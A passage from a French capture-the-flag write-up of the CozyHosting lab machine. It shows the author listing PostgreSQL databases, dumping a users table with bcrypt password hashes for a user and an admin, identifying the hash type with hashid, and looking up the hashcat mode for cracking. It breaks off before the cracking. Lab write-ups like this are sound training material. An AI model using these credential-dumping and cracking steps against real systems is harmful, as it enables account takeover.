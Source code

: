 D'abord on liste les bases de données.
```console
cozyhosting=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres

```


On se connecte à la base de données cozyhosting avec la commande `\c cozyhosting`, puis on énumère son contenu 
```
cozyhosting=# \d              
List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
```
On va doit regarder le contenu de la table users.

```console
cozyhosting=# SELECT * FROM users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

## Cracking de mot de passes

On récupère le hash et on le stock dans un fichier `hashes.txt`.

On utilise `hashid` pour identifier le hash.
```console
$ hashid hashes.txt 
--File 'hashes.txt'--
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'hashes.txt'--
```

Puis on identifie le numéro à donenr à hashcat pour cracker le hash (3200 ici):
```console
$ hashcat --help | grep 'Blowfish'           
3200 | bcrypt $2*$, Blowfish (Unix)                        | Operating System
```
